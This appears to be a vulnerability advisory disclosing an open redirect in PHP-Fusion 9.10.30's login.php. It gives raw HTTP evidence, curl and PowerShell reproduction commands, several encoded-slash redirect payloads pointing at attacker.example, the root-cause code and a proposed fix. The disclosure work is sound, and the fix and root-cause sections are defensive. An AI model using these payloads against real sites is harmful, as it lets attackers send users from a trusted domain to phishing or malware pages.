



# PF-2026-001 — Unauthenticated Open Redirect in PHP-Fusion 9.10.30 (`login.php`)

> **CWE-601** · **CVSS 3.1: 6.1 (Medium)** `AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N`
> Remote · **No authentication** · Default configuration

A remote, unauthenticated attacker can make PHP-Fusion redirect a victim's browser
from the **trusted site origin** to an **arbitrary external website**, enabling
phishing and malware delivery under the trust of the legitimate domain.

---

## 🎥 Proof of Concept (animated)



*The victim opens a link on the trusted `localhost` site → the server answers
`302 Location: //attacker.example` → the browser lands on a different origin.
The live browser demo used the `//127.0.0.1` loopback authority to prove the
origin switch **without contacting any external host**.*

---

## 🧩 Attack flow



---

## 📡 Raw HTTP evidence (verbatim)



Full transcript: [`proof/raw-http-evidence.txt`](proof/raw-http-evidence.txt)

```http
GET /php-fusion/login.php?error=1&redirect=%2F%2Fattacker.example%2Fphish HTTP/1.1
Host: localhost

HTTP/1.1 302 Found
X-Powered-By: PHPFusion 9.10.30
Location: //attacker.example/phish
Content-Length: 0
```

---

## 🔁 Reproduce

```bash
# Linux / macOS / Git-Bash
curl -s -o /dev/null -D - \
  "http://localhost/php-fusion/login.php?error=1&redirect=%2F%2Fattacker.example%2Fphish"
```

```powershell
# Windows PowerShell
curl.exe -s -o NUL -D - "http://localhost/php-fusion/login.php?error=1&redirect=%2F%2Fattacker.example%2Fphish"
```

Expected: `HTTP/1.1 302 Found` with `Location: //attacker.example/phish`.

Additional working payloads:

| Payload (`redirect=`) | Emitted `Location` |
|---|---|
| `%2F%2Fattacker.example` | `//attacker.example` |
| `/%2Fattacker.example` | `//attacker.example` |
| `/%5Cattacker.example` | `/\attacker.example` (browsers normalize `\`→`/`) |
| `https://attacker.example` *(control)* | **rejected** — not a single leading `/` |

Reproduction scripts: [`proof/reproduce.sh`](proof/reproduce.sh) · [`proof/reproduce.ps1`](proof/reproduce.ps1)

---

## 🔬 Root cause

`login.php` (guest login-error handler):

```php
if (isset($_GET['error']) && isnum($_GET['error'])) {
    $action_url = FUSION_REQUEST;
    if (isset($_GET['redirect']) && strpos(urldecode($_GET['redirect']), "/") === 0) {
        $action_url = cleanurl(urldecode($_GET['redirect']));
        redirect($action_url);          // -> header("Location: ".$action_url)
    }
```

1. The **only** validation is *"the value starts with `/`"* — a protocol-relative
   URL `//host` satisfies it.
2. `cleanurl()` strips `< > " ' & *` but **not** `/` or `\`, so the payload survives.
3. `maincore.php:135` normalizes *literal* `//` in `REQUEST_URI`, but URL-encoding
   the slashes (`%2F%2F`, `/%2F`) bypasses that guard while PHP still decodes the
   parameter back to `//host`.

---

## ✅ Fix

```php
$target = urldecode((string) get('redirect'));
if ($target !== '' && preg_match('#^/(?![/\\\\])[A-Za-z0-9._~!$&\'()*+,;=:@%/-]*$#', $target)) {
    redirect($target);          // safe: same-origin path only
}
// else: ignore and stay on the site
```
Also harden `redirect()` to refuse any `Location` beginning with `//` or `/\`.

---

## 📇 Metadata

| | |
|---|---|
| Product | PHP-Fusion CMS |
| Version | 9.10.30 (default install) |
| Component | `login.php` — `error` / `redirect` params |
| Auth required | None |
| User interaction | Yes (open link; victim must be logged-out) |
| Tested on | Apache 2.4.58 · PHP 8.2.12 · Windows/XAMPP |

CVE request: [`CVE-REQUEST.txt`](CVE-REQUEST.txt)

> ⚠️ Localhost-only, authorized assessment. Reproduce only against systems you own
> or are authorized to test. The loopback (`127.0.0.1`) demo host was used
> deliberately so no external system is ever contacted.
